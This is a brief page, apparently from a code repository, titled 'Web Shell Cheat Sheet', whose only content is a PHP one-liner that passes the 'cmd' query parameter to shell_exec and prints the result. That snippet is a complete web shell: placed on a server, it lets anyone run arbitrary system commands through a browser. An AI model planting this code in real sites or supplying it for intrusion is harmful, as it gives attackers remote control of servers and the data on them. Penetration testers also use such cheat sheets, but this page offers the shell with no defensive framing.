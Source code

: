 Web Shell Cheat Sheet
=====================

PHP
---
```<?php
$output = shell_exec($_GET['cmd']);
echo $output
 ?>```
